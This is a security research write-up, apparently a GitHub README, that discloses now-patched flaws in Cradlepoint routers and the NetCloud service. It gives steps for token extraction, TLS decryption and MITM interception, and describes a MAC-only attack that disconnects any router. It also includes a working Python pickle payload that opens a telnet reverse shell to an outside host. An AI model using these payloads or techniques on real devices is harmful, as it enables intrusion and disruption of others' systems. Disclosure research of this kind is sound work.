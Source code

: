 # NetCloud

- [Recon](#recon)
- [Get Access Token](#get-access-token)
- [Decrypt NetCloud Traffic in Wireshark](#decrypt-netcloud-traffic-in-wireshark)
- [MITM NetCloud Traffic with mitmproxy](#mitm-netcloud-traffic-with-mitmproxy)
- [Disconnect any Cradlepoint Router from NetCloud](#disconnect-any-cradlepoint-router-from-netcloud)
- [RCE](#rce-through-deserializing-untrusted-data)

## Recon

Cradlepoint documentation:

- [How to connect a router to NetCloud](https://customer.cradlepoint.com/s/article/NCM-Connecting-Devices)
- [NetCloud API to query routers remotely](https://customer.cradlepoint.com/s/article/NCM-APIv2-Overview)
  - [API query examples](https://developer.cradlepoint.com/)
- [Enable remote administration](https://customer.cradlepoint.com/s/article/NCOS-How-to-Configure-Remote-Administration-on-a-Cradlepoint-Router)

WPC Authentication / ECM:

- https://accounts.cradlepointecm.com/
  - Login with username and password
- The router uses a login `token_id` and `token_secret`
  - Token stored in NOR storage
  - `$ binwalk –extract nordump_pw0000.bin`
  - `$ grep -rl "wpc.auth" .`
- `ecm` command in the router's CLI
  - Privileged sub-commands: `tri`, `ale`, `dif`
- Connection
  - Server: `stream.cradlepointecm.com`
  - Port: `8001`
  - Certificate: `/service_manager/services/wpcclient/stream.crt`
- "Insecure Activation" (see `wpcclient.pyc`) probably only works if it's manually activated from the NetCloud side (see [use case](https://customer.cradlepoint.com/s/article/How-To-Have-Cradlepoint-register-a-router-to-NetCloud-Manager-when-it-is-physically-not-accessible)).
- "Insecure Activation" was also used to generate temporary credentials for brand-new devices (fixed by Cradlepoint after our report, fix verified by us).

## Get Access Token

Read NetCloud token from a [patched router CLI](../README.md#flashing-the-nand-images):

Connect to the router via SSH:

```bash
ssh admin@192.168.0.1
admin@192.168.0.1's password: 
[admin@IBR600C-a38: /]$ sh
/service_manager # cppython
```

... and paste the following into the interpreter:

```python
import filemanager
from board import board
file_io = board.get_partition("2nd Filemanager", rwdev=True)
fm2 = filemanager.FileManager2(file_io)
token = fm2.get("wpc.auth")
```

Example output: `(2439001, 0, '2b29ffccbda7e45df943dc1e82a096af04e24249', 'stream.cradlepointecm.com', 8001)`

You can use the `netcloud` command to register the router with the token:

```bash
[admin@IBR600C-a38: /]$ netcloud register --token_id=0 --token_secret=2b29ffccbda7e45df943dc1e82a096af04e24249
```

## Decrypt NetCloud Traffic in Wireshark

This step requires a rooted device (see [here](../README.md) for details).

1. In the dumped rootfs set the `SSLKEYLOGFILE` environment variable in `/etc/rc` and [reflash](../README.md#flashing-our-custom-kernel-and-rootfs) the device:

```bash
export SSLKEYLOGFILE=/tmp/ssl_key.txt
```

2. Connect to the router via SSH and start tcpdump:

```bash
ssh admin@192.168.0.1
admin@192.168.0.1's password: 
[admin@IBR600C-a38: /]$ sh
/service_manager # cd /var/tmp && tcpdump -i athc00 -w /tmp/netcloud_dump.pcap
```

3. Start a HTTP server to download the PCAP:

```bash
/var/tmp # iptables -A INPUT -p tcp --dport 8080 -j ACCEPT
/var/tmp # cppython -m http.server 8080
```

4. Download PCAP:

```bash
$ wget 192.168.0.1:8080/netcloud_dump.pcap
```

5. Import pre-master secret into Wireshark: Grab the file from step 1) and add it to Wireshark (`Preferences` --> `TLS` --> `(Pre)-Master-Secret logfile name`)

6. Export TLS stream as YAML: `Follow` --> `TLS Stream` --> `Show Data as YAML`

7. Finally, parse the YAML file with this [script](./scripts/parse_netcloud_packets_from_yaml.py).

## MITM NetCloud Traffic with mitmproxy

This how-to sets up your MITM box as a transparent proxy to intercept Netcloud communications with mitmproxy (we used a Raspberry Pi for this purpose).

1. Enable IP forwarding, setup `dnsmasq` and configure `iptables` rules. For example:

```bash
#!/bin/bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
sudo iptables -A FORWARD -i eth0 -o wlan0 -j ACCEPT
sudo iptables -A FORWARD -i wlan0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8001 -j REDIRECT --to-port 8080
sudo systemctl daemon-reload && sudo systemctl restart dhcpcd
sudo service dnsmasq restart
```

2. Setup the router's WAN interface to use your proxy as the default gateway (e.g., via the web interface)

3. Install mitmproxy (on Raspberry Pi):

``` bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ sudo apt-get install build-essential libssl-dev libffi-dev python3-dev cargo
$ git clone https://github.com/mitmproxy/mitmproxy/tree/main/mitmproxy
$ cd mitmproxy
$ pip install -e .
```

4. On the router, copy your MITM CA certificate into the file `/service_manager/services/wpcclient/stream.crt` (trusted CA "store")

5. Copy your MITM CA certificate into mitmproxy's folder. It must have the name `mitmproxy-ca.pem` and the following structure:

```
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
...
-----END CERTIFICATE-----
```

6. Fire up mitmproxy using [this](./scripts/mitmproxy_netcloud_logging.py) logging script:

```bash
$ mitmproxy --mode transparent --set confdir=$HOME/mitmproxy --rawtcp --tcp-hosts ".*" -s mitmproxy_netcloud_logging.py
```

## Disconnect any Cradlepoint Router from NetCloud

A device registered with Netcloud can be disconnected remotely by registering it again from any machine connected to the Internet by knowing its MAC address only (w/o Netcloud credentials and w/o accessing the device physically). The device's identity is based on its MAC address only. 

To reproduce, one has to go through the following steps:

1. We found a function in the Python middleware involved in the registration process called `insecure_registration`. This function is taking a MAC address as input and is computing a value out of it together with multiple hashes. We were able to get a temporary Netcloud authentication token using this function by calling the Netcloud API function `check_activation` with the result of the `insecure_registration` function, using a valid MAC address as input. Such MAC addresses can be easily obtained from online marketplaces such as Ebay.

After calling the API, one receives an access token from `stream.cradlepointecm.com`, e.g.:

```
{'token_id': 'temp-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx',
'token_secret': 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'}
```

2. This token can then be used to call the `authorize` and `register` Netcloud APIs to register the target device with its MAC address from any machine.

3. As a result, the target device is disconnected from its Netcloud account and disappears. Also, it loses its license. To re-connect the router, it must be manually re-registered via the web/ssh interface or physical access.

The attacker does not need to have a Netcloud account by her/himself. Only knowledge of the target’s MAC address is needed. This vulnerability has been patched.

## RCE through Deserializing Untrusted Data

By analyzing the traffic between Netcloud and our Cradlepoint router, we noticed that during registration, the router engages in a license sync with Netcloud by sending its license as a **pickled Base64 encoded byte stream**. Here is an example:

```
{'command': 'post', 'args': {'queue': 'license_sync', 'id': 'xxx', 'value': {'success': True, 'data': 'gAJ9[...]=='}}} 
```

The [Python pickle module](https://docs.python.org/3/library/pickle.html) implements binary protocols for serializing and de-serializing a Python object structure. A big warning is stated:

:warning: **Warning The pickle module is not secure. Only unpickle data you trust.** :warning:

As we control the data, it's possible to execute malicious pickle opcodes on Netcloud servers. For example, remote execution is possible, see [this blog](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). We can use this simple payload to get a reverse shell:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('telnet 192.168.1.200 8080 | /bin/bash | telnet 192.168.1.200 8081')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(pickled)
```

We didn’t run the attack against Netcloud servers, but were able to exploit the issue on the router (see example PoC [here](./scripts/mitmproxy_netcloud_rce.py)). This vulnerability has been patched.
